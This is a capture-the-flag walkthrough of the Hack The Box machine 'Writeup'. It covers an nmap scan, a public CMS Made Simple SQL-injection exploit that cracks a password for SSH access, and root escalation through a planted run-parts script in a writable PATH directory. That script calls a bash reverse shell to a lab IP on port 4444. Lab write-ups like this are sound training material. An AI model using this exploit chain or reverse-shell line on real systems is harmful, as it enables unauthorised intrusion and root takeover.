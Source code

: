 +++
title = 'Hack the Box Writeup for Writeup'
date = 2019-10-19T18:25:19-07:00
hideToc = true
+++
![Hack The Box Writeup](/posts/images/hack-the-box-writeup-writeup/badge.png)


# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:/media/sf_Research# nmap -sVC 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-17 20:23 EDT
Nmap scan report for 10.10.10.138
Host is up (0.37s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.22 seconds
```

From the above output we can see that ports, **22** and **80** are the only ports open. It also appears as though there's a `robots.txt` file disallowing a directory called `/writeup` on the web server.


```console
root@kali:/media/sf_Research# curl http://10.10.10.138/robots.txt
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

![Index of port 80](/posts/images/hack-the-box-writeup-writeup/main_80.png)


Running some directory enumeration tools on the main web port didn't turn up anything interesting. The page indicates that the site isn't ready yet, but contains various articles on Hack The Box writeups. When we navigate to the `/writeup` directory we see that this is where the CMS root directory is located.

![/writeup running directory CMS Made Simple](/posts/images/hack-the-box-writeup-writeup/cms.png)


We can determine that the site is running [CMS Made Simple](https://www.cmsmadesimple.org/). This can be done by checking the source code, but in my case the Firefox extension [Webappalyzer](https://www.wappalyzer.com/) indicated such. After browsing unauthenticated exploits for the CMS we come across one that works perfectly [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635).


# Exploitation  

In order to gain our initial foothold we execute the exploit with the `rockyou.txt` worldlist in order for it to crack the hashed password.

```console
root@kali:~/Desktop# python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

While some users on the forum indicated the need to adjust their system time in order for this exploit to function, I did not have to do anything of that nature. The exploit returned the above the first time it was run, and then again when I rerooted the box for the purposes of this writeup.

The username and password did not provide access to the backend of the CMS. They do, however, provide us ssh access to the box.

## User Flag

In order to get the user flag, we simply need to ssh into the box and move to the home directory of the `jkr` user.

```
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jun 20 19:17:35 2019 from 10.10.14.157
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls -la
total 72
drwxr-xr-x 2 jkr  jkr   4096 Jun 20 19:10 .
drwxr-xr-x 3 root root  4096 Apr 19 04:14 ..
-r--r--r-- 1 root root    33 Apr 19 08:43 user.txt
jkr@writeup:~$ cat user.txt
d4e493fd4068afc9eb1aa6a55319f978
```

## Root Flag

The privilege escalation for this box was not as immediately apparent to me as it was on SwagShop. Running [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) did not return anything very useful for me. Some users on the forum indicated using a tool called [Pspy](https://github.com/DominicBreuker/pspy). This tool allows us to "Monitor Linux processes without root permissions". After running this script for a while something interesting appears when other users access the box via ssh.

![output from pyspy](/posts/images/hack-the-box-writeup-writeup/pyspy.png)


The `PATH` variable contains a directory `/usr/local/sbin` as its first priority.

```console
jkr@writeup:~$ cd /usr/local/
jkr@writeup:/usr/local$ ls -la
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
```

As we see above, we also have access to write to and execute scripts from the `/usr/local/sbin` directory. This means that we can create our own `run-parts` to execute other scripts as root. So lets do that.


First we create a script to call our reverse shell, because adding the reverse shell directly to `run-parts` didn't seem to be doing the trick.

```console
jkr@writeup:/usr/local/sbin$ nano shelly.sh && chmod +x shelly.sh
```

Here is what `shelly.sh` contains.

```bash
#!/bin/sh  
bash -i >& /dev/tcp/10.10.14.52/4444 0>&1
```

Next we actually create the `run-parts` script within `/usr/local/sbin` so that it calls `shelly.sh`

```console
jkr@writeup:/usr/local/sbin$ nano run-parts && chmod +x run-parts
```

When we ssh in again from another terminal, we'll get our reverse shell with root privileges.

![tmux screenshot of achieving root privileges](/posts/images/hack-the-box-writeup-writeup/rooted.png)


# Conclusion

Writeup was a quick and easy box. The initial exploit for the CMS was really fun to watch run, as others have said it felt like The Matrix. After that, the privilege escalation had me a little stumped until I heard about pyspy, then it was fairly easy since the `PATH` variable stuck out like a soar thumb. It was still fun to figure out how to exploit that after discovery though, and getting the root shell was rather satisfying.
